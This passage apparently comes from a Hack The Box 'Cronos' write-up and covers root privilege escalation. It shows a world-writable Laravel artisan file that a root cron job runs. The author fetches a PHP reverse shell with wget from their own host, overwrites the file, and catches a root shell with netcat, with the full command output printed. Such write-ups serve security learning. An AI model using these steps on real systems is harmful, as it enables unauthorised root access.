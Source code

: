 ```sh
chmod +x lin.sh
www-data@cronos:/tmp$ 
```


linpeas flagged a scheduled job, with root permissions, as a method of priv esc. This should have been something I checked before, but I missed it.

```sh
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```


Moving into /var/www/laravel, I checked the permissions on artisan

```sh
ls -al artisan
-rw-rw-rw- 1 www-data www-data 5493 Oct 24 14:25 artisan
```

I do have read and write permissions to it. Unforutnatley in my case, someone had beaten me to it and overwrote the original script with their reverse shell. 

## Root Shell

For my approach I took the original php reverse shell that comes with kali stored in /usr/share/webshells/php/php-reverse-shell.php, put in my ip and port that I started a listener on. I uploaded this php file to the target, and then wrote that php script to the artisan file being run by root as a scheduled task.


Download the file to the target and overwrite the artisan file with the php script.
```sh
cd /tmp
wget http://10.10.14.11/rev.php
--2021-10-25 00:38:41--  http://10.10.14.11/rev.php
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [application/octet-stream]
Saving to: 'rev.php'

     0K .....                                                 100% 5.35M=0.001s

2021-10-25 00:38:42 (5.35 MB/s) - 'rev.php' saved [5491/5491]

cat rev.php > /var/www/laravel/artisan

```


I waited a few minutes and received a root shell on my netcat listener.
```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.13] 49928
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 00:48:01 up 15:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
whoami
root
# 
```
